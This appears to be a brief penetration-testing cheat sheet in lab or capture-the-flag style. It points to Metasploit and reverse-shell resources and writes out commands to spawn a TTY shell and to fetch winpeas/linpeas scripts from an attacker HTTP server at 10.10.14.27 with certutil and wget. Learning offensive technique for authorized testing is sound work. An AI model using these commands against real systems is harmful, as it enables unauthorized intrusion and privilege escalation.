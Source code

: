 ## Exploiting 

### use of metasploit 
a penetration testing framework that makes hacking simple. It's an essential tool for many attackers and defenders.
```
Command to start metasploit: msfconsole
```

### using online scripts 
Scripts can be found online.
<br> Useful links: 
* https://www.github.com 

### Getting reverse shell 
Useful links to get reverse shell scripts: http://pentestmonkey.net/

## Upgrading shell to tty shell
```
	- spawn tty shell: python -c "import pty;pty.spawn('/bin/bash')"
	- background session: ctl + z
	- stty raw -echo 
	- fg 
	- export TERM=xterm-256color
	- stty rows 60 columns 130 
```
## Transferring files from host to target 
Using a HTTP server: <br>
```
command to setup a web server: python -m SimpleHTTPServer 8080
command to retrieve the script from host machine to windows machine: certutil -URLcache -split -f "http://10.10.14.27:8080/winpeas.sh"
command to retrieve the script from host machine for linux machine: wget http://10.10.14.27:8080/linpeas.sh
```
